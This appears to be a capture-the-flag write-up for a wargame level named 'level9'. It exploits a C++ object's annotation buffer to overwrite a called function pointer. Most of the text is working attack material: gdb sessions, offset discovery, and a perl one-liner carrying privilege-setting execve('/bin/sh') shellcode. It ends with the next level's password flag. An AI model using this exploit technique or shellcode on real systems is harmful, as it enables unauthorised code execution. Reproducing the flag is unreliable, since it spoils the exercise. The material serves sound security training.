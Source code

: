 # level9

In this level, we have a c++ program with an object.
The first step is to all understand and all convert to a pseudo c++ code (see source).

We can see at main+159: `call edx`. The goal is to change the edx pointer (by default `edx = refObj2`).

We can fill a str with `setAnnotation` function. So we will add a shellcode in the string of Obj using `setAnnotation` function and set the edx pointer to jump on `obj1._str`.

```bash
[COMPUTER]
> ./pattern.py create 200
AAA~AAA}AAA|AAA{AAAzAAAyAAAxAAAwAAAvAAAuAAAtAAAsAAArAAAqAAApAAAoAAAnAAAmAAAlAAAkAAAjAAAiAAAhAAAgAAAfAAAeAAAdAAAcAAAbAAAaAAA_AAA^AAA]AAA[AAA@AAA?AAA>AAA=AAA<AAA;AAA:AAA9AAA8AAA7AAA6AAA5AAA4AAA3AAA2AAA1
> ./pattern.py search AAAc
found at offset: 108

[VM]
> gdb level9
(gdb) $ b *main+142
(gdb) $ run 'AAA~AAA}AAA|AAA{AAAzAAAyAAAxAAAwAAAvAAAuAAAtAAAsAAArAAAqAAApAAAoAAAnAAAmAAAlAAAkAAAjAAAiAAAhAAAgAAAfAAAeAAAdAAAcAAAbAAAaAAA_AAA^AAA]AAA[AAA@AAA?AAA>AAA=AAA<AAA;AAA:AAA9AAA8AAA7AAA6AAA5AAA4AAA3AAA2AAA1'
...
# we see that $eax = "AAAc"
# searching for "AAAc" pattern with the python script -> offset = 108
```
So we can call the function at address `argv[1] + 108`. We can for example put the address of `obj1._str`.
```bash
> gdb level9
(gdb) $ b memcpy@plt
(gdb) $ r AAAA
(gdb) $ x $esp+0x4
0x0804a00c  # address of obj1._str
```

Let's try with this:
```bash
> gdb level9
(gdb) $ run `perl -e 'print "A"x108 . "\x0c\xa0\x04\x08"'`
... segfault: Invalid $PC address: 0x41414141
# so we know that we try to exec the code at _str address
```

Now, all we need is to put a pointer on _str address (the code will jump from this address), the pointer is only a few bytes after and we can put the shellcode.
```bash
> ./level9 `perl -e 'print "\x10\xa0\x04\x08\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" . "A"x56 . "\x0c\xa0\x04\x08"'`
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

```
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```